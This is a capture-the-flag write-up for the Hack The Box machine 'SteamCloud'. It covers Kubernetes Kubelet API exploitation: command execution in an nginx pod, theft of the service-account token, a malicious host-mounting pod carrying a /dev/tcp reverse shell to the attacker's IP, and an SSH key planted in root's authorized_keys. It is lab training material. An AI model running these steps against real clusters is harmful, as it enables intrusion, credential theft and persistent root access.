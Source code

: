 # [SteamCloud](https://app.hackthebox.com/machines/steamcloud)

```bash
nmap -p- --min-rate 10000 10.10.11.133 -Pn  
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here for these ports.

```bash
nmap -A -sC -sV -p22,2379,2380,8443,10249,10250,10256 10.10.11.133 -Pn
```

![alt text](img/image-1.png)


That's `K8S` , we need to pentest ports (8443,10250) more specifically.


For this, I will use this [blog](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/pentesting-kubernetes-services).

Let's start from port `8443`.

I try to make `anonymous` enumeration, but it doesn't work.

```bash
kubectl --server https://10.10.11.133:8443  get pod
kubectl --server https://10.10.11.133:8443  get namespaces
kubectl --server https://10.10.11.133:8443  get cluster-info
```

![alt text](img/image-2.png)


Let's switch into port `10250` which is `Kubelet API`. For this I use [`kubeletctl`](https://github.com/cyberark/kubeletctl) command.


```bash
kubeletctl pods -s 10.10.11.133
```

![alt text](img/image-3.png)


Let's see **running** pods.
```bash
kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
```

![alt text](img/image-4.png)


Let's try to inject some system commands to `nginx` pod via `kubeletctl` command.
```bash
kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
```

![alt text](img/image-5.png)


While I try to do `reverse shell`, but it doesn't work.

That's why I try to submit just `/bin/bash` to get shell.
```bash
kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
```

user.txt

![alt text](img/image-6.png)


From [this](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration#service-account-tokens) information, I need to check these files that I can read or not.

```bash
kubeletctl -s 10.10.11.133 exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
```

![alt text](img/image-7.png)


I have three of them being `ca.crt`, `namespace` and `token`.

**ca.crt**: It's the ca certificate to check kubernetes communications
**namespace**: It indicates the current namespace
**token**: It contains the service token of the current pod.


Let's get `token` and `ca.crt` files as below.
```bash
kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt
kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token
```

![alt text](img/image-8.png)


Let's add this token into `environment` variables on our machine via `export` command which we will use to authenticate into `k8s`  by using certificate also.

```bash
export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```

![alt text](img/image-9.png)


Now, it's time to check we have authentication is valid into `k8s` or not via `kubectl` command.
```bash
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
```

![alt text](img/image-10.png)



Let's create malicious `pod` via below `.yaml` file.
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: dr4ks-malpod
  namespace: default
spec:
  containers:
  - name: dr4ks-malpod
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.14.18/1337 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

While I create a pod via above `.yaml` config file, I will get reverse shell from port `1337`. For creation of pod, I will use `kubectl apply` command.
```bash
kubectl apply -f dr4ks_malpod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```

![alt text](img/image-11.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-12.png)


root.txt

![alt text](img/image-14.png)


To get persistent shell, I need to add my public key into `/mnt/root/.ssh/authorized_keys` file as below.
```bash
echo "{public_key}" > /mnt/root/.ssh/authorized_keys
```

![alt text](img/image-16.png)

Then, I can join to host via private key `id_rsa` file.
```bash
ssh -i /root/.ssh/id_rsa root@10.10.11.133
```

![alt text](img/image-15.png)